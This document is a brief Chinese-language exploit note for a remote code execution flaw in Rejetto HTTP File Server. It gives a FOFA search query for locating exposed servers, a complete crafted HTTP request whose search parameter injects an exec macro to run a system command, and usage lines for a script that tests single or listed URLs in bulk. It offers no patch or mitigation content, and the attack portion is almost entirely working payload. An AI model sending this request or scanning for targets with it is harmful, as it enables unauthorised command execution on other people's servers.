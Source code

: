 # Rejetto HTTP远程代码执行

### 1.漏洞描述

Rejetto HTTP File Server 存在远程代码执行漏洞，攻击者可通过构造特殊请求执行系统命令。

### 2.fofa语法

```plain
app="HFS"
```

### 3.漏洞复现

```plain
GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}V{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719838259699-6c359c5f-8081-4795-ab35-dfeeb3376a25.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```
